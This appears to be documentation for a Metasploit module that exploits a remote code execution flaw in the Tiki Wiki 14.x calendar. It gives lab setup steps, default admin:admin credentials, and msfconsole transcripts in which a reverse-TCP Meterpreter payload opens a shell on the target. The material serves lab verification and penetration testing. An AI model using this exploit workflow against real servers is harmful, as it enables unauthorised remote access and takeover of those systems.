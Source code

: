 ## Vulnerable Application

  * Official Source: [sourceforge](https://sourceforge.net/projects/tikiwiki/files/Tiki_14.x_Peony/14.1/)
  * Exploit-db: [edb](https://www.exploit-db.com/apps/2fa84367ba4f14afab9f51cd3e93606d-tiki-14.2.7z)
  * Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

  **Of note, there is some discussion if 14.2 is vuln or not.**

  1. Exploit-DB says in the title (may be wrong) 14.2 is vuln.
  2. The linked app Exploit-DB has is 14.2.
  3. Its verified on Exploit-DB.

vs

  1. Manual print statement testing from the PoC on 14.2 doesn't seem to be vuln
  2. The [notice](https://tiki.org/article414-Important-Security-Fix-for-all-versions-of-Tiki) seems to say 14.2 is the update that fixes the problem

### Creating A Testing Environment

  1. Create a fresh Ubuntu 16.04 w/ a LAMP install
  2. `apt-get install php-xml`
  3. Normal php install at that point!
  4. After install, login as admin:admin
  5. Go to the Control Panels
  6. Click Features
  7. Enable Calendar under Main feature
  8. Click Apply

#### Permissions

  If you wish to enable the non-logged in user (anonymous) to view/exploit the calendar:

  1. Log in as admin
  2. From the top dropdown select permissions
  3. Check Anonymous near the top
  4. Click Assign

## Verification Steps

  1. Install the software as documented above
  2. Start msfconsole
  3. Do: `use exploit/linux/http/tiki_calendar_exec`
  4. Do: `set rhost 10.10.10.10`
  5. (optional, if not set, set username to empty) Do: `set PASSWORD admin`
  6. Do: `set payload php/bind_perl`
  7. Do: `set verbose true`
  8. Do: `check`

```
  [*] Attempting Login
  [+] Login Successful!
  [+] 10.10.10.10:80 The target is vulnerable.
```

  9. Do: `exploit`
  10. You should get a shell

```
  [*] Started reverse TCP handler on 10.10.10.10:4444 
  [*] Attempting Login
  [+] Login Successful!
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) 10.10.10.10.190
  [*] Meterpreter session 1 opened (10.10.10.10:4444 -> 192.168.2.190:48188) at 2016-06-19 08:50:44 -0400
```

## Options

### PASSWORD

  Password is set at first login. Default for admin is 'admin'.

## Scenarios

Example running against unauthenticated calendar v14.1

```
  msf > use exploit/linux/http/tiki_calendar_exec
  msf exploit(tiki_calendar_exec) > set rhost 192.168.2.190
  rhost => 192.168.2.190
  msf exploit(tiki_calendar_exec) > set targeturi /t14_1/
  targeturi => /t14_1/
  msf exploit(tiki_calendar_exec) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  msf exploit(tiki_calendar_exec) > set lhost 192.168.2.229
  lhost => 192.168.2.229
  msf exploit(tiki_calendar_exec) > set verbose true
  verbose => true
  msf exploit(tiki_calendar_exec) > set username ''
  username => 
  msf exploit(tiki_calendar_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.2.229:4444 
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) to 192.168.2.190
  [*] Meterpreter session 1 opened (192.168.2.229:4444 -> 192.168.2.190:48172) at 2016-06-18 10:58:19 -0400
  
  meterpreter > sysinfo
  Computer    : tikiwiki
  OS          : Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64
  Meterpreter : php/php
  meterpreter > 
```
